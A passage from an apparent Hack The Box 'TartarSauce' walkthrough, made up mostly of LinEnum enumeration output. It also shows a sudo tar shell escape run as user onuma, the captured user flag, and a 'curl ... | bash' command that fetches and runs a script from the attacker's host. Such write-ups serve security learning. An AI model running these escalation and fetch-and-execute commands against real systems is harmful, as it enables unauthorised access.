--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/unattended-upgrades.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/ondemand.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-hugepages.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/lvm2-monitor.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/lxcfs.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/snapd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/iscsid.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/sys-fs-fuse-connections.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/resolvconf.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dbus.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/ifup@ens33.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/var-lib-lxcfs.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/accounts-daemon.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-modules-load.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-mqueue.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-remount-fs.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/system-getty.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/open-vm-tools.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-update-utmp.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/system-systemd-fsck.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/keyboard-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/proc-sys-fs-binfmt_misc.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/apparmor.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-logind.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/rc-local.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/mysql.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/cron.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/apache2.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-udevd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/acpid.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/rsyslog.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/networking.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup-dev.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-id-dm-name-pseudonym--vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/atd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-mapper-pseudonym--vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-journald.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/console-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-pseudonym-vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/kmod-static-nodes.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/ufw.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-uuid-0be71ade-d24d-4609-a48e-32c26969430c.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-sysctl.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/-.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/mdadm.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/setvtrgb.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-dm-1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-udev-trigger.service/cgroup.event_control


[-] NFS displaying partitions and filesystems - you need to check if exotic filesystems
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
/dev/mapper/pseudonym--vg-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda1 during installation
UUID=b4cd62bf-1293-4acb-8a5a-91085c7d55a4 /boot           ext2    defaults        0       2
/dev/mapper/pseudonym--vg-swap_1 none            swap    sw              0       0


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 3028 Aug  1  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 8464 Feb  9  2018 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 2231 May  2  2018 /etc/sysctl.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 100 Jan 10  2017 /etc/sos.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 6920 Jan 11  2018 /etc/overlayroot.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 350 Feb  9  2018 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 144 Feb  9  2018 /etc/kernel-img.conf


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Aug  1  2017 .
drwxr-xr-x 14 root root 4096 Feb  9  2018 ..


### SCAN COMPLETE ####################################
www-data@TartarSauce:/$
```

###### User shell using gtfobins

```sh
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/$
```

- [`gtfobins.github.io`](https://gtfobins.github.io/gtfobins/tar/)

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```



```sh
www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
onuma@TartarSauce:/$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
onuma@TartarSauce:/$
onuma@TartarSauce:/$ ls
bin  boot  dev  etc  home  initrd.img  lib  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz
onuma@TartarSauce:/$ cd home/
onuma@TartarSauce:/home$ ls
onuma
onuma@TartarSauce:/home$ cd onuma/
onuma@TartarSauce:~$ ls
shadow_bkp  user.txt
onuma@TartarSauce:~$ cat user.txt
b2d6ec45472467c836f253bd170182c7
onuma@TartarSauce:~$
```

###### Privilege Escalation

```sh
root@kali:~/tartarsauce# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.88 - - [05/Nov/2018 18:43:36] "GET /LinEnum.sh HTTP/1.1" 200 -
10.10.10.88 - - [05/Nov/2018 18:55:59] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
onuma@TartarSauce:~$ curl http://10.10.14.8/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 47597  100 47597    0     0  84360      0 --:--:-- --:--:-- --:--:-- 84242

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.93

[-] Debug Info
[+] Thorough tests = Enabled


Scan started at:
Mon Nov  5 18:55:04 EST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux


[-] Kernel information (continued):
Linux version 4.15.0-041500-generic (kernel@kathleen) (gcc version 7.2.0 (Ubuntu 7.2.0-8ubuntu3.1)) #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
TartarSauce


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Wed May  2 10:17:59 -0400 2018
onuma            tty1                      Fri Feb  9 09:00:51 -0500 2018


[-] Who else is logged on:
 18:55:04 up 16:51,  0 users,  load average: 0.00, 0.02, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(mysql) gid=111(mysql) groups=111(mysql)
uid=108(messagebus) gid=112(messagebus) groups=112(messagebus)
uid=109(uuidd) gid=113(uuidd) groups=113(uuidd)
uid=110(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=111(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
onuma:x:1000:1000:,,,:/home/onuma:/bin/bash


[-] Super user account(s):
root


[-] Accounts that have recently used sudo:
/home/onuma/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K Feb  9  2018 .
drwxr-xr-x 22 root  root  4.0K May  1  2018 ..
drwxrw----  5 onuma onuma 4.0K Feb 21  2018 onuma


[-] Files not owned by user but writable by group:
-rw-rw-rw- 1 root root 730 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/sitemap.xml
-rw-rw-rw- 1 root root 141 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt


[-] Files owned by our user:
-rw-r--r-- 1 onuma onuma 11511663 Nov  5 18:54 /var/tmp/.debe5a6359715829ee3657745d52cc41b1610989
-rw-r--r-- 1 onuma onuma 11511663 Nov  5 18:49 /var/backups/onuma-www-dev.bak
-rwxrw---- 1 onuma onuma 0 Feb  9  2018 /home/onuma/.cache/motd.legal-displayed
-rwxrw---- 1 onuma onuma 52 Feb 17  2018 /home/onuma/.mysql_history
-rwxrw---- 1 onuma onuma 655 Feb  9  2018 /home/onuma/.profile
-rwxrw---- 1 onuma onuma 12 Feb 17  2018 /home/onuma/.nano/search_history
-rwxrw---- 1 onuma onuma 0 Feb  9  2018 /home/onuma/.sudo_as_admin_successful
-rwxrw---- 1 onuma onuma 222 Feb 15  2018 /home/onuma/.ssh/known_hosts
-rwxrw---- 1 onuma onuma 3871 Feb 15  2018 /home/onuma/.bashrc
-r-------- 1 onuma onuma 33 Feb  9  2018 /home/onuma/user.txt
-rwxrw---- 1 onuma onuma 220 Feb  9  2018 /home/onuma/.bash_logout


[-] Hidden files:
-rw-r--r-- 1 root root 1032 May  1  2018 /etc/init.d/.depend.start
-rw-r--r-- 1 root root 1264 May  1  2018 /etc/init.d/.depend.boot
-rw-r--r-- 1 root root 1213 May  1  2018 /etc/init.d/.depend.stop
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.hourly/.placeholder
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.weekly/.placeholder
-rw-r--r-- 1 root root 1204 May  1  2018 /etc/apparmor.d/cache/.features
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.monthly/.placeholder
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.d/.placeholder
-rw------- 1 root root 0 Aug  1  2017 /etc/.pwd.lock
-rw-r--r-- 1 root root 102 Apr  5  2016 /etc/cron.daily/.placeholder
-rw-r--r-- 1 root root 655 May 16  2017 /etc/skel/.profile
-rw-r--r-- 1 root root 3771 Aug 31  2015 /etc/skel/.bashrc
-rw-r--r-- 1 root root 220 Aug 31  2015 /etc/skel/.bash_logout
-rw-r--r-- 1 root root 0 Nov  5 02:03 /run/network/.ifstate.lock
-rwxr-xr-x 1 root root 485 Feb  9  2018 /var/www/html/webservices/wp/.htaccess
-rwxr-xr-x 1 root root 629 Feb 21  2018 /var/www/html/webservices/wp/wp-content/plugins/akismet/.htaccess
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/css/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/pages/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/snippets/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/users/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/menu/js/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/box/emails/css/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.htaccess
-rwxr-xr-x 1 root root 56 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.gitignore
-rwxr-xr-x 1 root root 35 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.travis.yml
-rwxr-xr-x 1 root root 104 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror/.gitattributes
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/captcha/crypt/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/captcha/crypt/images/.htaccess
-rwxr-xr-x 1 root root 31 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/plugins/markitup/markitup/.htaccess
-rwxr-xr-x 1 root root 2229 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/libraries/Gelato/_logs/.empty
-rwxr-xr-x 1 root root 518 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/.gitignore
-rw-rw-r-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/public/uploads/.empty
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/logs/.empty
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/cache/.empty
-rwxr-xr-x 1 root root 47 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/.htaccess
-rwxr-xr-x 1 root root 14 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/minify/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/tmp/minify/.empty
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/backups/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/backups/.empty
-rwxr-xr-x 1 root root 13 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/storage/.htaccess
-rwxr-xr-x 1 root root 0 Apr  5  2016 /var/www/html/webservices/monstra-3.0.4/storage/blocks/.empty
-rw-r--r-- 1 root root 1319 May  1  2018 /var/lib/apparmor/profiles/.apparmor.md5sums
-rw-r--r-- 1 onuma onuma 11511663 Nov  5 18:54 /var/tmp/.debe5a6359715829ee3657745d52cc41b1610989
-rwxrw---- 1 onuma onuma 52 Feb 17  2018 /home/onuma/.mysql_history
-rwxrw---- 1 onuma onuma 655 Feb  9  2018 /home/onuma/.profile
-rwxrw---- 1 onuma onuma 0 Feb  9  2018 /home/onuma/.sudo_as_admin_successful
-rwxrw---- 1 onuma onuma 3871 Feb 15  2018 /home/onuma/.bashrc
-rwxrw---- 1 onuma onuma 220 Feb  9  2018 /home/onuma/.bash_logout
-rw-r--r-- 1 root root 5025 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.sign-file.cmd
-rw-r--r-- 1 root root 3165 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/selinux/genheaders/.genheaders.cmd
-rw-r--r-- 1 root root 2769 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/selinux/mdp/.mdp.cmd
-rw-r--r-- 1 root root 3472 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.sortextable.cmd
-rw-r--r-- 1 root root 3860 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.insert-sys-cert.cmd
-rw-r--r-- 1 root root 3291 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.recordmcount.cmd
-rw-r--r-- 1 root root 3671 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.conf.o.cmd
-rw-r--r-- 1 root root 4815 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.zconf.tab.o.cmd
-rw-r--r-- 1 root root 110 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/kconfig/.conf.cmd
-rw-r--r-- 1 root root 2318 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.kallsyms.cmd
-rw-r--r-- 1 root root 4407 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.extract-cert.cmd
-rw-r--r-- 1 root root 5229 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.devicetable-offsets.s.cmd
-rw-r--r-- 1 root root 2469 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.mk_elfconfig.cmd
-rw-r--r-- 1 root root 546 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.devicetable-offsets.h.cmd
-rw-r--r-- 1 root root 104 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.elfconfig.h.cmd
-rw-r--r-- 1 root root 4510 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.modpost.o.cmd
-rw-r--r-- 1 root root 2280 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.empty.o.cmd
-rw-r--r-- 1 root root 3391 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.file2alias.o.cmd
-rw-r--r-- 1 root root 129 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.modpost.cmd
-rw-r--r-- 1 root root 4325 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/mod/.sumversion.o.cmd
-rw-r--r-- 1 root root 2329 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/.conmakehash.cmd
-rw-r--r-- 1 root root 2649 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.genksyms.o.cmd
-rw-r--r-- 1 root root 2419 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.parse.tab.o.cmd
-rw-r--r-- 1 root root 153 Apr 23  2018 /usr/src/linux-headers-4.4.0-122-generic/scripts/genksyms/.genksyms.cmd
